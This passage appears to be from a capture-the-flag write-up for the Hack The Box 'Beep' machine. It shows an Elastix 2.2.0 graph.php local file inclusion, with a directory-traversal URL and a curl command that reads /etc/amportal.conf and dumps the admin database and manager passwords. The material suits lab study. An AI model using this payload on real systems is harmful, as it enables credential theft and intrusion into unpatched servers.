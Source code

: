 ```bash
|     References:
|       http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure
|       http://www.exploit-db.com/exploits/1997/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392
...
```

# Exploitation

## Elastix 2.2.0 - 'graph.php' Local File Inclusion (#1)

Poc: [Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/37637)

Verified if the website is vulnerable: [https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action](https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action)

Extracted admin credentials from the .conf file:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ curl 'https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action' --insecure -s -i | tee | grep -v '\#' | awk NF
HTTP/1.1 200 OK
Date: Tue, 27 Apr 2021 14:21:46 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

AMPDBHOST=localhost
AMPDBENGINE=mysql
AMPDBUSER=asteriskuser
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
AMPMGRPASS=jEhdIekWmdjE
AMPBIN=/var/lib/asterisk/bin
AMPSBIN=/usr/local/sbin
AMPWEBROOT=/var/www/html
AMPCGIBIN=/var/www/cgi-bin 
FOPWEBROOT=/var/www/html/panel
FOPPASSWORD=jEhdIekWmdjE
ARI_ADMIN_USERNAME=admin
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
AUTHTYPE=database
AMPADMINLOGO=logo.png
AMPEXTENSIONS=extensions
ENABLECW=no
ZAP2DAHDICOMPAT=true
MOHDIR=mohmp3
AMPMODULEXML=http://mirror.freepbx.org/
AMPMODULESVN=http://mirror.freepbx.org/modules/
AMPDBNAME=asterisk
ASTETCDIR=/etc/asterisk
ASTMODDIR=/usr/lib/asterisk/modules
ASTVARLIBDIR=/var/lib/asterisk
ASTAGIDIR=/var/lib/asterisk/agi-bin
ASTSPOOLDIR=/var/spool/asterisk
ASTRUNDIR=/var/run/asterisk
ASTLOGDIR=/var/log/asteriskSorry! Attempt to access restricted file.
```

